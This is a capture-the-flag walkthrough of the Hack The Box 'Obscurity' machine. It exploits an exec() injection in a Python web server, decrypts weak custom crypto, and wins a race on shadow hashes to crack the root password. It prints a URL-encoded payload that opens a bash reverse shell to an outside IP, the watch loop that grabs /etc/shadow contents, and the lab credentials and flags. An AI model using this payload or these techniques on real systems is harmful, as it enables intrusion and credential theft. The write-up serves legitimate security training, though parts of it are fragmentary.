










# Obscurity



We see that 9000 and 80 is closed this mean we'll start our enumeration with port 8080.

***

## HTTP



On that page we find a development section which tells use that we need to get `SuperSecureServer.py` from secret `/develop` directory.

So If we visit `http://10.10.10.168:8080/develop/SuperSecureServer.py` we'll see the source code in that file.

If we analyze the code we can see that it checks for the path that is provided and then it checks the `MIME type` of the file we are trying to read and then display the content of that file.

The interesting part in that code is the following 2 lines in function `serveDoc` under `Server` class:

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Here we see that it pass the path directly to the `exec()`. Now this isn't as easy as `eval()`, we'll have to

```
http://obscure.htb:8080/';__import__(%22os%22).system(%22bash%20-c%20'bash%20-i%20%3E&%20/dev/tcp/10.10.15.117/4445%200%3E&1'%22)%23
```


`python3 -c 'import pty; pty.spawn("/bin/sh")'`

***

## Horizontal Priv esc

In `/home/robert` we see that there is `SuperSecureCrypt.py` which is doing some kind of encryption.

```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
                    help='Where to output the encrypted/decrypted file',
                    required=False)

parser.add_argument('-k',
                    metavar='Key',
                    type=str,
                    help='Key to use',
                    required=False)

parser.add_argument('-d', action='store_true', help='Decrypt mode')

args = parser.parse_args()

banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner += "  ############################\n"
banner += "  #        FILE MODE         #\n"
banner += "  ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
    print("Missing args")
else:
    if args.d:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Decrypting...")
        decrypted = decrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(decrypted)
    else:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Encrypting...")
        encrypted = encrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(encrypted)

```

This `encryptor` takes an input file, a key and an output file and encryption on it and even that is not good.

It take 1 character of the text and another character of the key and do `newChr = chr((newChr + ord(keyChr)) % 255)` which is making new character by adding ascii values of the first two character.

I did

```bash
python3 SuperSecureCrypt.py -d -i out.txt -o /tmp/password.txt -k "Encrypting this file with your key should result in out.txt, make sure your key is correct!"
```

`alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich`



Similar way we get password for `robert` but now we use that decrypted key



`robert:SecThruObsFTW`



`e4493782066b55fe2755708736ada2d7`

## Vertical priv esc

I found robert had `sudo rights`



Looking at the source of `/home/robert/BetterSSH/BetterSSH.py`

```python
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess

path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

It right to some tmp directory for a sec so we can use watch

```bash
robert@obscure:~$ while sleep 0.1; do cat /tmp/SSH/* 2>/dev/null; done
```

Then

```bash
sudo -u root /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```





Then we can crack the root password using `john`.



`root:mercedes`




`512fd4429f33a113a44d5acde23609e3`
